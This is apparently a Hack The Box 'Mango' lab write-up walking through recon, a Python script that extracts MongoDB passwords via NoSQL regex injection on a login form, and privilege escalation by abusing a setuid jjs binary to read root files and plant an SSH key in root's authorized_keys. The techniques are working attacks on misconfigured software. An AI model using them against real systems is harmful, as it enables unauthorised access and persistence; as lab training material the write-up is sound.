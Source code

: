 ```yaml
---
title: Mango 🥭 HTB
date: '2020-04-18 20:00:00'
categories: ["htb"]
---
```


From nmap we can see 3 open ports `22,80,443`, visting port 80 we cannot see anything because we get a 403 status Forbidden.  

Visiting port 443, there is something like a google search named Mango, which does nothing. Also there is a file named analytics.php which pulls code from codepen, but nothing of interest there. Viewing the ssl cert info I was able to extract a domain: *staging-order.mango.htb*. I add this to my /etc/hosts file.  

staging-order.mango.htb is a website with login form, I intercept the requests there and try some nosql injections but nothing. Given the name of box(Mango) I think of mongodb, so I start and search for mongodb sql injection, I stubled accross a ctf writeup https://blog.0daylabs.com/2016/09/05/mongo-db-password-extraction-mmactf-100/. I try to do the same and find that the regex indded works, so I create a scipt to extarct the password using mango as username.

```
import requests
import string

url = 'http://staging-order.mango.htb'
username='mango'
password=''

while True:
    for chars in string.printable:
        if chars not in ['[', '\\','^','$','.','|','?','*','+','(',')']: #else this would break the regex
                payload = {'username': username, 'password[$regex]': "^" + password + chars, 'login': 'login'}
                r = requests.post(url, data=payload, allow_redirects=False)
                if r.status_code == 302:
                    print ("Found one char: %s" % password+chars)
                    password += chars

```

I found the password **h3mXK8RhU~f{]f5H** and try to login but I get a page under construction, which leads me nowhere. I remeber I had ssh open.  

I ssh as mango using the password I found previously, I then try to read user.txt but that file is owned by `admin` which seems another user, the same password as mango for admin on ssh does not work, so I try to use the script again but this time using admin as the username.  

I find another password **t9KcS3>!0B#2**, now I can read user.txt! Using LinEnum.sh I try to find any anomalies in the box, but nothing comes up, so I run it again but this time adding -t to do a thorough test.  I found that `/usr/lib/jvm/java-11-openjdk-amd64/bin/jjs` has setuid permission so I can run it as root user.

Going to https://gtfobins.github.io/ I search for jjs and find that I can use the following code to read a file, so I read root.txt:

```
echo 'var BufferedReader = Java.type("java.io.BufferedReader");
var FileReader = Java.type("java.io.FileReader");
var br = new BufferedReader(new FileReader("/root/root.txt"));
while ((line = br.readLine()) != null) { print(line); }' | /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
```

I now can submit root.txt file but I wasn't really logged in as root.

I can also see I can use another code to write into a file so I paste my public ssh key:

```
echo 'var FileWriter = Java.type("java.io.FileWriter");
var fw=new FileWriter("/root/.ssh/authorized_keys");
fw.write("ssh-rsa AAAAB3NzaC1yc......");
fw.close();' | /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
```

And now I can ssh into the box using root username, and login as root.